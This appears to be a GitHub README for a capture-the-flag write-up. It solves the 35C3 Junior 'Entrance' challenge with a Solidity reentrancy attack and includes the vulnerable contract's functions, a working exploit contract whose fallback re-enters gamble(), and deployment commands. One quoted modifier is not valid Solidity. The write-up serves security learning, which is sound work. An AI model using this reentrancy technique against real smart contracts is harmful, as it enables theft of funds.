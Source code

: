 # ctf-Entrance

Link to challenge: https://junior.35c3ctf.ccc.ac/challenges/ > Of Course >
Entrance.

### Introduction

This repository is the solution to the Junior 35C3CTF Entrance, a Solidity
reentrancy attack. The expl0it is a simple recursion based on the
`msg.sender.call` statement contained in the vulnerable contract.

### The Attack

Right from the get go, when looking at the contract code, one can see that
there is a `getFlag` method in the vulnerable contract. To call it, a player
needs a balance of >= 300.

```
  function getFlag(string memory _server, string memory _port) public {
    require (balances[msg.sender] > 300, "flag");
    emit EntranceFlag(_server, _port);
  }
```

An event is emitted with a `server` and `port` string. Our initial assumption
was that when the event is triggered by someone on the ropsten contract, a
server from the CTF team is listening for these events and will send back the
flag to a listening server the player has to setup.

But first, let's enter the game. To do that a player needs to call a method
called `enter(uint256 _pin)` on the the entrance.sol contract. A pin is needed
and wasn't specified in any of the hints. It's however easy to find in the data
of the [contract creation
transaction](https://ropsten.etherscan.io/address/0x1898Ed72826BEfa2D549004C57F048A95ae0B982#code).

```
  modifier legit(uint256 _pin) {
    if (_pin == pin, "bye") _;
  }

  function enter(uint256 _pin) public legit(_pin) {
    balances[msg.sender] = 10;
    has_played[msg.sender] = false;
  }
```

As we can call `getFlag` only with a balance of 300, we have to gamble with a
function called `gamble()`. Unfortunately, this function only adds 10 to the
player's balance and then doesn't allow the player to play again as
`has_played` is then set to `true`.


```
  modifier onlyNewPlayer {
    require(has_played[msg.sender] == false, "hello");
    _;
  }

  function gamble() public onlyNewPlayer {
    require (balances[msg.sender] >= 10, "gamble");
    if ((block.number).mod(7) == 0) {
      balances[msg.sender] = balances[msg.sender].add(10);
      balance = balances[msg.sender];
      // Tell the sender he won!
      msg.sender.call("You won!");
      has_played[msg.sender] = true;
    } else {
      balances[msg.sender] = balances[msg.sender].sub(10);
    }
  }

```

We can also see that one can only successfully gamble when the `block.number`
is divisible by 7, as otherwise funds are subtracted from the balance of the
player.

With this in mind we were quite confused at first what to do and re-read the
description of the challenge again:

```
Can you enter? Again?
```

So the question is: Can we enter `gamble` again. Turns out we can.  In fact, if
the `msg.sender.call` function doesn't call a valid function, [it defaults to a
so called
fallback-function](https://ethereum.stackexchange.com/questions/42521/what-does-msg-sender-call-do-in-solidity/42585#42585)
that can be defined in a calling contract.

With knowing this, we made the following plan:

- Create a smart contract that has a function `enter` that calls `entrance.enter`
with the given pin `0xbc4f77`
- Check if the current `block.number` is divisible by 7 and if so call `gamble`
- Define a fallback function in our exploit contract that checks if the balance
is less than 300 and if so, call `gamble` again.

After a lot of back and forth and some quite fun but also frustrating hours, we
arrived at the following code:

```
pragma solidity >=0.4.21 <0.6.0;

import "./entrance.sol";
import "./SafeMath.sol";

contract EnterAgain {
    using SafeMath for *;

    uint256 counter = 0;
    address a;

    constructor(address _a) {
        a = _a;
    }

    function enter() {
        uint b = block.number;
        require((b).mod(7) == 0, "wrong block number");
        Entrance entrance = Entrance(a);
        entrance.enter(0xbc4f77);
        entrance.gamble();
        entrance.getFlag("34.254.178.181", "8080");
    }

    function() {
        Entrance entrance = Entrance(a);
        if(entrance.balances(this) <= 300) {
            entrance.gamble();
        }
    }
}
```

In the constructor, we set the address `a` of the vulnerable contract.  In
`enter`, we call `block.number` and check if it's divisible by 7. We then
instanciate the vulnerable contract, call `enter` and `gamble`. We run through
the gambling game by continously falling back to our fallback-function
`function()` to ultimately stop, and call `getFlag`. After the transaction is
confirmed, our netcat server was answered with the flag.

### Installation

```
$ npm i
$ truffle migrate --network ropsten
$ node enter.js
# Run it until your transaction gets included into a block that is divisible by
# 7. Usually this is the case if the current block is divisible by 6.
```

We included several private keys here from a ropsten address. Potentially these
have to be changed or refilled with ether to run the expl0it.


### Tips

- Modify all require statements with a second argument string to know where the
  contract reverts. Additionally, change all `if`s to require with a second
  argument string so that you can debug them better.
- Always debug locally with Ganache and Truffle. It's so much easier than
  deploying live. There is additionally `truffle debug <tx id>` which can be
  very helpful for debugging a transaction step by step.
- If stuck, remove checks from the vulnerable contract to get your script
  passing.  It will really accelerate your workflow.

